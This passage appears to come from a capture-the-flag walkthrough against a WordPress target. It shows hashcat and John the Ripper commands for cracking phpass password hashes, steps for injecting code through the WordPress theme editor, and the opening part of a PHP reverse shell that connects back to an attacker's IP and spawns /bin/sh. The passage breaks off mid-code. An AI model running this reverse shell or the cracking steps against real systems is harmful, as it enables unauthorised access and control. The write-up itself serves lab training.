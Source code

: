 ### 💥 Hashcat Cracking
```bash
# WordPress uses phpass hashing (mode 400)
hashcat -m 400 hash.txt /usr/share/wordlists/rockyou.txt

# Alternative with John the Ripper
john --wordlist=/usr/share/wordlists/rockyou.txt --format=phpass hash.txt
```

**Q7: Plaintext password result**

## 🚀 Privilege Escalation

### 🎯 WordPress Admin Access
1. **Login** to WordPress with cracked credentials
2. **Navigate** to Appearance → Theme Editor
3. **Select** a PHP file (e.g., 404.php or functions.php)

### 🐚 Reverse Shell Injection

#### 📝 PHP Reverse Shell
```php
<?php
// PHP reverse shell
set_time_limit (0);
$VERSION = "1.0";
$ip = 'YOUR_IP';
$port = YOUR_PORT;
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

if (function_exists('pcntl_fork')) {
    $pid = pcntl_fork();
    if ($pid == -1) {
        printit("ERROR: Can't fork");
        exit(1);
    }
    if ($pid) {
        exit(0);
    }
    if (posix_setsid() == -1) {
        printit("Error: Can't setsid()");
        exit(1);
    }
    $daemon = 1;
} else {
    printit("WARNING: Failed to daemonise. This is quite common and not fatal.");
}

chdir("/");
umask(0);

$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
    printit("$errstr ($errno)");
    exit(1);
}

$descriptorspec = array(
```